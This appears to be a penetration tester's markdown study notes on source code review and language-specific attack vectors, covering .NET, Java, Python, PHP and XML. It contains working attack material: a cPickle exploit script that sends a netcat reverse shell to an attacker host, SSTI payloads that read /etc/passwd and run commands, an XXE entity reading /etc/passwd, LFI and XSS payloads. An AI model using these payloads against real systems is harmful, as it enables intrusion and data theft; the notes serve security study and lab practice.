






## Esoteric Languages 

- Malbolge compiler: https://www.tutorialspoint.com/execute_malbolge_online.php
- Brainfuck Interpreter: https://sange.fi/esoteric/brainfuck/impl/interp/i.html
- Piet Interpreter: https://www.bertnase.de/npiet/npiet-execute.php

## Static Analysis 


- Flawfinder - C/C++
- Graudit - ASP/C/.Net/JSP/Perl/PHP/Python
- Find Security Bugs - Java 
- RATS - C/C++/Perl/PHP/Python
- RIPS - PHP
- Brakeman - Ruby/Rails
- Build your own
  - Clang Analyzer 
  - Python PLY and libs build on it (PLYJ for Java)
  - Pyparsing
  - ANTLR
  - Coco/R
- Commercial          
  - Veracode 
  - Covertity
  - Fortify
  - Checkmarx
  - Klocwork


## Remote debugging 

- <https://z-r0crypt.github.io/blog/2020/01/22/oswe/awae-preparation/>
- sshfs and port forwarding through my kali VM via PuTTY to mount one of my targets as a network drive within windows and then opened that folder in my local VSCode.
- Java
  - Remote debug
    - `java -agentlib:jdwp=transport=dt_shmem,address=XXXXX,server=y,suspend=n -jar YourJar`
    - `jdb -attach XXXXX`
    - `jdb -sourcepath [unzipped jar path] -classpath [your main class path]`
    - `stop at <TheClassName>:<ThePosition>`
    - `run <your main class, for example org.springframework.boot.loader.JarLauncher>`
  - <https://sourceforge.net/projects/realignmentjd/>
    - <https://stackoverflow.com/a/7767823>
    - <http://java.decompiler.free.fr/?q=jdeclipse>
- PHP
  - <https://jonathansblog.co.uk/remote-debugging-php-in-visual-studio-code-with-xdebug>
  - <https://medium.com/bugbountywriteup/oswe-remote-debugging-php-code-with-visual-studio-code-278140962c36>
- NodeJS
  - <https://maikthulhu.github.io/2019-05-17-remote-debugging-node-vscode/>
  
## .Net

- Compiling `cs` files: `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe test.cs`
- Enabling debug:
  - Src in `C:\inetpub\wwwwroot\eample\bin\example.dll` is loaded to `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\example\`
  - dnSpy (Edit Assembly Attributes (C#))
    - Making an Image Easier to Debug: <https://github.com/dnSpy/dnSpy/wiki/Making-an-Image-Easier-to-Debug>
    - From: `[assembly: Debuggable(DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints)]`
    - To: `[assembly: Debuggable(DebuggableAttribute.DebuggingModes.Default | DebuggableAttribute.DebuggingModes.DisableOptimizations | DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints | DebuggableAttribute.DebuggingModes.EnableEditAndContinue)]`
  - Compile and Save Module
  - Debug > Attach  w3wp.exe
  - Pause
  - Debug > Windows > Modules
  - Right Click - Open All Modules
  - <https://docs.microsoft.com/en-us/visualstudio/debugger/how-to-debug-dotnet-framework-source?view=vs-2019>
  - <https://www.domstamand.com/debugging-your-dotnet-applications-and-packages-howto/>
- ViewState:
  - CASE 1: Target framework ≤4.0 (ViewState Mac is disabled): `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFramework\v{VersionHere}`
  - CASE 2: When ViewState is removed from the HTTP request
  - CASE 3: Target framework ≤4.0 (ViewState Mac is enabled)
    -  get access to the web.config 
    -  get validation key and algorithm
  - CASE 4: Target framework ≤4.0 (Encryption is enabled for ViewState)
  - CASE 5: Target framework is ≥.NET 4.5
    - decryption algorithm and the decryption key to the ysoserial payload generator 
  - CASE 6: ViewStateUserKey is being used
    - need `viewstateuserkey`
  - <https://medium.com/@swapneildash/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817>
- Deserialization
  - Ref:
    - <https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf>
    - <https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf> 
    - <https://www.slideshare.net/MSbluehat/dangerous-contents-securing-net-deserialization>
  - <https://github.com/pwntester/ysoserial.net>
  - System.Windows.Data.ObjectDataProvider <https://docs.microsoft.com/en-us/dotnet/api/system.windows.data.objectdataprovider?redirectedfrom=MSDN&view=netframework-4.7.2>
    - Inherits DataSourceProvider
    - PresentationFramework.dll  (C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF)
    - Wrap an arbitrary object
    - use the MethodName property to call a method
    - use the MethodParameters property to pass parameters
  - BinaryFormatter - Serializes and deserializes an object, or an entire graph of connected objects, in binary format <https://docs.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.binary.binaryformatter?view=netcore-3.1&viewFallbackFrom=netframework-%204.7.2>
    - BinaryFormatter is insecure and can't be made secure.
    - BinaryFormatter security guide: <https://docs.microsoft.com/en-us/dotnet/standard/serialization/binaryformatter-security-guide>
  - XML serialization: <https://docs.microsoft.com/en-us/dotnet/standard/serialization/introducing-xml-serialization>
  - ObjectDataProvider: <https://docs.microsoft.com/en-us/dotnet/api/system.windows.data.objectdataprovider?view=netcore-3>
    - Use the ConstructorParameters property to pass parameters to the constructor of your object.
    - Use the MethodName property to call a method and use the MethodParameters property to pass parameters to the method. You can then bind to the results of the method.
  - ExpandedWrapper: <https://docs.microsoft.com/en-us/dotnet/api/system.data.services.internal.expandedwrapper-2?view=netframework-4.7.2>
    - <https://referencesource.microsoft.com/#System.Data.Services/System/Data/Services/Internal/ExpandedWrapper.cs>
    - <https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/linq/projection-operations>
    - <http://oakleafblog.blogspot.com/2010/07/windows-azure-and-cloud-computing-posts_22.html>
  - Videos
    - Alvaro Muñoz: .NET Serialization: Detecting and defending vulnerable endpoints: <https://www.youtube.com/watch?v=qDoBlLwREYk>
    - 
## C / C++

- Unsafe functions 
  - `strcpy` 
  - `strcat`

## GO

**Environment Setup**

- Preparing Your Environment For Go Development: <https://www.gopherguides.com/courses/preparing-your-environment-for-go-development?utm_source=twitter&utm_campaign=install&utm_medium=twitter>

**References**

- <https://github.com/parsiya/Hacking-with-Go>
- <https://www.blackhat.com/docs/asia-17/materials/asia-17-Clapis-Go-Get-My-Vulnerabilities-An-In-Depth-Analysis-Of-Go-Language-Runtime-And-The-New-Class-Of-Vulnerabilities-It-Introduces.pdf>


## Java

- Decompiler: <https://github.com/skylot/jadx>
- Older tools 
  - Debug running app (using hooks): JavaSnoop
  - How-swap classes on running application: <https://github.com/nlfiedler/jswat>
- Simple steps to create Jar
    ```bash
    javac -source 1.8 -target 1.8 test.java
    mkdir META-INF
    echo "Main-Class: test" > META-INF/MANIFEST.MF
    jar cmvf META-INF/MANIFEST.MF test.jar test.class
    java -jar test.jar
    ```
- Debug
    ```bash
    -Xdebug -Xnoagent -Xrunjdwp:transport=dt_socket,address=8787,server=y ,suspend=n
    jdb -attach example:8787
    jdb -sourcepath . -attach example:8787 # jdb with the sourcepath
    stop in <full package>.<class>.<method>
    list

    # add to tomcat-verison/bin/startup.sh
    export JPDA_ADDRESS=8000
    export JPDA_TRANSPORT=dt_socket

    # modify last line to
    exec "$PRGDIR"/"$EXECUTABLE" jpda start "$@"
    ```

**Deserialization**

- <https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet>
- Deserialization Intro: <https://klezvirus.github.io/Advanced-Web-Hacking/Serialisation/>
- All about Deserialization: <https://book.hacktricks.xyz/pentesting-web/deserialization>

- Decode serialized data: <https://github.com/NickstaDB/SerializationDumper>
- <https://www.youtube.com/watch?v=KSA7vUkXGSg>
- Deserialization: what, how and why [not] - Alexei Kojenov - AppSecUSA 2018: <https://www.youtube.com/watch?v=t-zVC-CxYjw>
  - Very good basic introduction
  - Death by deserialization: <https://youtu.be/t-zVC-CxYjw?t=1155>
- Automated Discovery of Deserialization Gadget Chains: <https://www.youtube.com/watch?v=MTfE2OgUlKc>
  - History of important sessions: <https://youtu.be/MTfE2OgUlKc?t=309>
  - Basic example to magic methods (hashCode example)  to Gadget chains
  - <https://github.com/JackOfMostTrades/gadgetinspector>
  - Libraries
    - Commons Collection: <https://gursevkalra.blogspot.com/2016/01/ysoserial-commonscollections1-exploit.html>
    - Conjure
    - Scala-Library
    - Conjure2
- New Exploit Technique In Java Deserialization Attack: <https://www.youtube.com/watch?v=Lv9BC_bYaI8>
  - 
  - CVE-2019-1040 - NTLM reflection attack
  - CVE-2019-2426 - ntlm leaking
- <https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html>
- <https://deadcode.me/blog/2016/09/18/Blind-Java-Deserialization-Part-II.html>
- Defense
  - Look ahead check 
  - JEP290 - Filter Incoming Serialization Data
  - Runtime application self protection (RASP)
  - Java-Agent
- Tools
  - <https://raw.githubusercontent.com/NickstaDB/SerialBrute/master/SerialBrute.py>
  - <https://github.com/JackOfMostTrades/gadgetinspector>
    - Enum class hierarchy 
    - Discover passthrough dataflow
    - Enum passthrough callgraph 
    - Enum source using known tricks  ( entry points into gadget-chains )
      - HashCode
      - DynamicProxy
    - BFS on call graph for chains
  - <https://github.com/frohoff/ysoserial>
  - <https://github.com/mbechler/marshalsec>
  - <https://github.com/Contrast-Security-OSS/joogle>
  - <https://github.com/federicodotta/Java-Deserialization-Scanner>
  - <https://github.com/nccgroup/freddy>
- java.lang.Runtime.exec() Payload Workarounds: <http://www.jackson-t.ca/runtime-exec-payloads.html>


**References**

- LLJVM - running comparatively low level languages (such as C) on the JVM: [https://github.com/davidar/lljvm](https://github.com/davidar/lljvm)
- Java deserialization attacks: 
  - [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)
  - [https://github.com/NickstaDB/SerializationDumper](https://github.com/NickstaDB/SerializationDumper)
  - <https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/>
  - <https://github.com/NickstaDB/DeserLab>
  - <https://github.com/NickstaDB/BaRMIe>
  - JSF:
    - <https://bitbucket.org/gebl/viewstatemesser/src/master/>
    - <https://bitbucket.org/gebl/appseccali-jsf-el/src/master/>
    - <https://github.com/frohoff/inspector-gadget>

**New Technologies**

- Feign is a Java to HTTP client binder inspired by Retrofit, JAXRS-2.0, and WebSocket: <https://github.com/OpenFeign/feign>
- resilience4j: https://resilience4j.readme.io/docs/getting-started

## JavaScript

**Tools**

- CharCode Translator: <http://jdstiles.com/java/cct.html>
```
<script>eval(String.fromCharCode(CHARCODE_HERE));</script>">
```

## NodeJS / JavaScript

- Look for `eval()`

**Tools**

- [Serialize an object including it's function into a JSON](https://github.com/luin/serialize)
- [Contents for Node.Js Security Course](https://github.com/ajinabraham/Node.Js-Security-Course)

**References**

- Eval Safe-Eval VM VM2: <https://odino.org/eval-no-more-understanding-vm-vm2-nodejs/>
  - <https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html>
- [Exploiting deserialization bugs in Node.js modules for Remote Code Execution](https://ajinabraham.com/blog/exploiting-deserialization-bugs-in-nodejs-modules-for-remote-code-execution)
  - [Exploiting Node.js deserialization bug for Remote Code Execution](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
- [Node.js Security: Pentesting and Exploitation – NJS](https://opsecx.com/index.php/product/node-js-security-pentesting-and-exploitation/)
  - <https://github.com/ajinabraham/Node.Js-Security-Course>
  - <https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/Web/node.js-deserialization.md>
  - <https://www.vulnhub.com/entry/moonraker-1,264/>
- [Node.Js Deserialization Attack – Detailed Tutorial 2018](https://www.yeahhub.com/nodejs-deserialization-attack-detailed-tutorial-2018/)

## Rails

- [Rails' Remote Code Execution Vulnerability Explained](https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/)

## RegEx

**References**

- Regex tutorial — A quick cheatsheet by examples: <https://medium.com/factory-mind/regex-tutorial-a-simple-cheatsheet-by-examples-649dc1c3f285>
- Exploiting Regular Expressions: <https://medium.com/@somdevsangwan/exploiting-regular-expressions-2192dbbd6936>

## Rust 

**References**

- Fearless Concurrency with Rust: <https://blog.rust-lang.org/2015/04/10/Fearless-Concurrency.html>

## Python

- Internals: Objects, Classes and Metaclasses - Above and Under the Hood: <http://cben-hacks.sourceforge.net/python/lectures/metaclasses/metaclasses.html>
  - <https://blog.usejournal.com/playing-with-inheritance-in-python-73ea4f3b669e>'
  - Type vs Object: <https://lerner.co.il/2015/10/18/pythons-objects-and-classes-a-visual-guide/>
  - Script to inspect: <https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/search.py>
- Debugging using ptvsd
  - `pip install ptvsd`
  - If `Procfile` is used disable start of web server automatically by commenting `web:` section
  - Add following to app:
    ```python
    import ptvsd
    ptvsd.enable_attach(redirect_output=True)
    print("Waiting for debugger")
    ptvsd.wait_for_attach()
    ```
- Get attributes and methods of a object:
    ```python
    s = 'HELLO'
    dir(s)
    ```
- `__class__` attribute - type of object
- `__mro__` attribute (Method Resolution Order)) - tuple of classes in the search order
- `__subclasses__` returns a list of all the subclasses of a class
- `__bases__` provides a tuple of immediate base classes of a class.

**SSTI**

- <https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti>
- <https://0day.work/jinja2-template-injection-filter-bypasses/>
- SSTI patterns: 
  - `s.__class__.__base__.__subclasses__()`
  - `s.__class__.__mro__[1].__subclasses__()`

- Searching:
```python
c = 'HELLO'.__class__.__base__.__subclasses__()

for i in range(len(c)):
  print( i, c[i].__name__ )

for i in range(len(c)):
  n = c[i].__name__
  if n.find('warning') > -1: # Find specific function name
    print( i, n )
```

- Common interesting functions:  
  - catch_warnings: `s.__class__.__base__.__subclasses__()[100]._module.__builtins__['__import__']('os').system("date")`
  - read: `s.__class__.__base__.__subclasses__()[100]('/etc/passwd').read()`
  - popen: `s.__class__.__base__.__subclasses__()[100](["/usr/bin/touch","/tmp/example"])`
- Common sinks:
  - `flask.render_template_string(source, **context)`
- Vars:
  - `request`
  - `session`
  - `config`
  - `g` - globals
  - May bruteforce with <https://raw.githubusercontent.com/albinowax/SecLists/9309803f3f7d5c1e0b2f26721c1ea7ef36eeb1c8/Discovery/Web_Content/burp-parameter-names>
  - <https://flask.palletsprojects.com/en/1.0.x/templating/#standard-context>
  - <https://jinja.palletsprojects.com/en/master/templates/#builtin-globals>
- First, inject something like {{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('<malicious code here>'') }} into the SSTI vulnerability. Then, invoke the compilation process by injecting {{ config.from_pyfile('/tmp/owned.cfg') }}. The code will execute upon compilation. <https://www.lanmaster53.com/2016/03/11/exploring-ssti-flask-jinja2-part-2/>

**Challenges**

- <https://www.hackingnote.com/en/python-challenge-solutions/level-5>

**Tools**

- ZipApps - similar to JAR 
- pipX - pip with virtual env
- Shiv - Modified ZipApp to work with C extensions
- Packaging: The bible of packaging python apps in docker

**Attack Vectors**
- Exploiting Imports - It is possible to create a `.py` file named with the name of the import. This will load the local file (same dir as the file importing the library) instead of the actual library.
- cPickle RCE
  - [Arbitrary code execution with Python pickles](https://checkoway.net/musings/pickle/)
  - [Python Pickle Injection](http://xhyumiracle.com/python-pickle-injection/)
  - <https://penturalabs.wordpress.com/2011/03/17/python-cpickle-allows-for-arbitrary-code-execution/>
  - <https://blog.nelhage.com/2011/03/exploiting-pickle/>
  - <https://stackoverflow.com/questions/38307636/can-anyone-explain-me-the-example-of-an-exploit-in-python-s-pickle-module>
  - HTB - DevOps
  - HTB - Challenge - Mics - Long Bottom's Locker
  - <https://www.hackingnote.com/en/python-challenge-solutions/level-5>
- Pickle formats: <http://spootnik.org/entries/2014/04/05/diving-into-the-python-pickle-formatt/index.html>

```python
#!/usr/bin/python3
import sys
import pickle

f = open(sys.argv[1], 'rb')
mydict = pickle.load(f)
f.close

for line in mydict:
    print("".join([k * v for k, v in line]))

for i in mydict:
    b=[]
    for x in i:
        #print x
        b.append(x[0] * x[1])

    print("".join(b))
```

```python
import cPickle, requests, base64

LHOST = '10.10.14.14'
LPORT = '31337'
RHOST = '10.10.10.91'
RPORT = '5000'


class Payload(object):
	def __init__(self, cmd):
		self.cmd = cmd
	def __reduce__(self):
		import os
		return (os.system, (self.cmd,))


reverse_sh = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f" % (LHOST, LPORT)
evilpickle = cPickle.dumps(Payload(reverse_sh))

r = requests.post('http://%s:%s/newpost' % (RHOST, RPORT), data=base64.urlsafe_b64encode(evilpickle))
print('POST {} {}'.format(r.status_code, r.url))
```

Pickle to object:

```python
import pickle
import base64 
pickled = base64.b64decode("Value")
pickle.load(pickled)
```

## PHP

- Extensions: `.php .php3 .php4 .php5 .php7 .phps .phtml .inc .phar`

### Cheatsheets

- <https://www.logicbig.com/tutorials/misc/php/php-advance-cheat-sheet.html>
- <http://overapi.com/php>
- <https://courses.cs.washington.edu/courses/cse154/18au/resources/cheatsheets/php-cheatsheet.pdf>
- Type Juggling, Math issues, Strcmp issues: <http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html>
- Serialized data: `O:len(class_name):"class_name":len(properties_to_edit):{s:len(variable_name):"variable_name";s:len(variable_value):"variable_value";}`
  - <https://securitycafe.ro/2015/01/05/understanding-php-object-injection/>
### References

- dangerous-php-functions: <https://alionder.net/dangerous-php-functions/>
- [Understanding PHP Object Injection](https://securitycafe.ro/2015/01/05/understanding-php-object-injection/)
  - <https://blog.ripstech.com/2018/php-object-injection/>
- <https://eev.ee/blog/2012/04/09/php-a-fractal-of-bad-design/>
- <https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/>
- <http://pentestmonkey.net/tools/web-shells/php-reverse-shell>
- [PHP Remote File Inclusion command shell using data://](https://www.idontplaydarts.com/2011/03/php-remote-file-inclusion-command-shell-using-data-stream/)
- [Hardening and securing PHP on Linux](https://www.idontplaydarts.com/2011/02/hardening-and-securing-php-on-linux/)
- [SQL injection via PHP Object Injection](https://foxglovesecurity.com/2017/02/07/type-juggling-and-php-object-injection-and-sqli-oh-my/)

- [HTTP Parameter Pollution with cookies in PHP](https://www.idontplaydarts.com/2013/06/http-parameter-pollution-with-cookies-in-php/)

### Attack Vectors 

#### Terminate strings using null byte**

Before `PHP 5.3` terminate strings using null byte is possible (%00 in URL)

```
http://example.com?param=../../../../etc/passed
  -> /etc/passed.php
http://example.com?param=../../../../etc/passed%00
  -> /etc/passed
```
#### Vulnerable Functions

Local / Remote file inclusion bugs:
```php
include()
include_once()
require()
require_once()
```

Local / Remote command execution bugs:
```php
eval()
preg_replace()
fwrite()
passthru()
file_get_contents()
shell_exec()
system()
```

SQL Injection bugs:
```php
mysql_query()
```

File / File system bugs:
```php
fopen()
readfile()
glob()
file()
popen()
exec()
```

> <https://0xzoidberg.wordpress.com/2010/05/26/vulnerable-php-functions/>

#### RCE with PREG Functions

- implement regular expressions for the preg_ functions (preg_match, preg_replace)
- `/e` modifier which allows evaluation of PHP code in the preg_replace

Example:

```php
<?php
$string = "this is my lower sting";
print preg_replace('/(.*)/e', 'strtoupper("\\1")', '$string');
?>

// THIS IS MY LOWER STING
```

Example Attack:
```php
<?php
$string = "phpinfo()";
print preg_replace('/^(.*)/e', 'strtoupper(\\1)', $string);
?>
```

Filter Evasion:
- Prevent single quote and escape chars

```php
Following will fail: $string = "system('ls -lah')";

Bypass: $string = "`ls -lah`";
```

> - Ref: <http://www.madirish.net/402>

#### LFI with Filter Inclusion

- Useful when LFI is possible but ".php" is appended at end (and not vulnerable to null byte injection)
- `filter/convert.base64-encode` forces PHP to base64 encode the file before it is used in the require statement (`index​.php`) <http://example.com/?page=php://filter/convert.base64-encode/resource=index​>

#### LFI with Zip Inclusion (Include a file inside a zip)

- If it is possible to upload a zip file <http://example.com/?page=zip://uploads/zipfilename#shell.php?cmd=id>

#### LFI to RFI

- Possible if `allow_url_include` is on

#### Type Juggling

- Magic hashes
  - <https://www.whitehatsec.com/blog/magic-hashes/>
  - <https://github.com/spaze/hashes>

Fixed in v7 (except for exponent)
References:

- <https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf>
- <https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/>
- <https://0xdf.gitlab.io/2018/06/23/htb-falafel.html#php-type-juggling-intro>
- <https://pen-testing.sans.org/blog/2014/12/18/php-weak-typing-woes-with-some-pontification-about-code-and-pen-testing>
- <https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/>
  


```php
'0e1234' == '0e4321'
'0e1234' == '0'
'0e1234' <= '1'
'0xf' == '15' #0xf in hexadecimal notation is 15
```

```php
'000...000' == int(0)
'0e0...000' == int(0)
'1e0...000' == int(1)
'0abc...000' == int(0)
'abc...000' == int(0) # if a string starts with a non numerical character it will default to int(0)
```

```php
var_dump("2 bottles" == 2); // ==> TRUE

$values = array("apple","orange","pear","grape"); in_array(0, $values); // ==> TRUE

if($password == "secretpass") // ==> TRUE when $password=0
```

Example:
```php
<php
  $token = "0e124656823434657657655654324342";
  if(isset($_COOKIE['token']) && $_COOKIE['token'] == $token) {
    // access to privilege area
  }
  else {
    // login require
  }
?>

$COOKIE[‘token’] == $token (‘0e124656823434657657655654324342’ == ‘0’) will return TRUE
$COOKIE[‘token’] != $token (‘0e124656823434657657655654324342’ != ‘0’) will return FALSE
```
```php
var_dump(md5('240610708') == md5('QNKCDZO'));
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
var_dump('0010e2'         == '1e3');
var_dump('0x1234Ab'       == '1193131');
var_dump('0xABCdef'       == '     0xABCdef');
```
MD5
```php
var_dump(md5('240610708') == md5('QNKCDZO'));
0e462097431906509019562988736854 == 0e830400451993494058024219903391
```
SHA1
```
0e07766915004133176347055865026311692244
```

```python
def find_email_with_juggle_md5(domain, max_prefix_length, hash_split_length):
    count = 0
    for check in itertools.imap(''.join, itertools.product(string.lowercase, repeat=int(max_prefix_length))):
        hash = hashlib.md5("%s@%s" % (check, domain)).hexdigest()
        if hash_split_length > 0:
            hash =  hash[:hash_split_length]
        if re.match(r'0+[eE]\d+$', hash):
            print "(+) Found %s@%s, with  %d attempts (hash: %s)" % (check, domain, count, hash)
    count += 1
```

- <https://www.whitehatsec.com/blog/magic-hashes/>

#### Reduction in Entropy (Insecure HMAC)

```php
$secret = 'secure_random_secret_value'; $hmac = md5($secret . $_POST['message']); if($hmac == $_POST['hmac'])<br>
// ===> Bypass by creating a hmac starting with `0e[0-9]` // var_dump("0e123" == "0e51217526859264863"); ===> TRUE shell_exec($_POST['message']);
```

#### Hashing Algorithm Disclosure

Given 240610708 and QNKCDZO attacker can guess that hashing algo is `md5`

```php
var_dump(md5('240610708') == md5('QNKCDZO')); ===> TRUE
```

## XML

- Internal entity: `<!ENTITY name "entity_value">`
  - `<!ENTITY test "<value>test</value>">`
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY name "Replaced">
    ]>
    <root>
        <t1>&name;</t1>
    </root>
    ```
- External entity: 
  - Private: `<!ENTITY name SYSTEM "URI">`
    - `<!ENTITY example SYSTEM "http://example.com/example.xml">`
  - Public: `<!ENTITY name PUBLIC "public_id" "URI">`
    - `<!ENTITY example PUBLIC "-//W3C//TEXT examples//EN" "http://example.com/example.xml">`
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY name SYSTEM "file:///etc/passwd">
    ]>
    <root>
        <t1>&name;</t1>
    </root>
    ```
- Parameter Entity: `<!ENTITY % name SYSTEM "URI">`
  - `<!ENTITY % test 'Example'><!ENTITY Title 'This is %test;' >`
- Unparsed:
  - `<!ENTITY name SYSTEM "URI" NDATA TYPE>`
  - `<!ENTITY name PUBLIC "public_id" "URI" NDATA TYPE>`
- CDATA
  - It's not possible to ref to entity from another entity within the DTD defining those
  - Hence, need external DTD: `echo '<!ENTITY wrapper "%start;%content;%end;">' > wrapper.dtd`
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ENTITY % start "<![CDATA[">
